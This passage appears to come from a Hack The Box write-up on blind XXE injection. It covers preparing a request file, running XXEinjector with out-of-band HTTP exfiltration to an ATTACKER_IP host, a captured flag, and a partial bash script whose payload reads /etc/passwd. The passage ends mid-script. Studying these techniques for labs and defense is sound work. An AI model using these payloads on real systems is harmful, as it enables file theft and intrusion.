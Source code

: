 #### Automated XXEinjector Method

**Step 1: Prepare Request File**
```bash
cat > xxe.req << EOF
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.234.170
Content-Type: text/plain;charset=UTF-8
Content-Length: 169

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
EOF
```

**Step 2: Execute XXEinjector**
```bash
git clone https://github.com/enjoiz/XXEinjector.git
cd XXEinjector

ruby XXEinjector.rb \
    --host=ATTACKER_IP \
    --httpport=8000 \
    --file=/tmp/xxe.req \
    --path=/327a6c4304ad5938eaf0efb6cc3e53dc.php \
    --oob=http \
    --phpfilter

# Check results
cat Logs/10.129.234.170/327a6c4304ad5938eaf0efb6cc3e53dc.php.log
```

**🎯 Flag:** `HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}`

---

## Automated XXE Testing

### XXE Detection Script
```bash
#!/bin/bash
# xxe-tester.sh

URL="$1"
if [ -z "$URL" ]; then
    echo "Usage: $0 <target_url>"
    exit 1
fi

echo "Testing XXE on: $URL"

# Test 1: Basic entity processing
echo "=== Test 1: Basic Entity Processing ==="
curl -s -X POST "$URL" \
    -H "Content-Type: application/xml" \
    -d '<?xml version="1.0"?><!DOCTYPE test [<!ENTITY test "XXE_TEST">]><root><email>&test;</email></root>' \
    | grep -i "XXE_TEST" && echo "✓ Basic XXE detected"

# Test 2: File disclosure
echo "=== Test 2: File Disclosure ==="
curl -s -X POST "$URL" \
    -H "Content-Type: application/xml" \
    -d '<?xml version="1.0"?><!DOCTYPE test [<!ENTITY file SYSTEM "file:///etc/passwd">]><root><email>&file;</email></root>' \
```
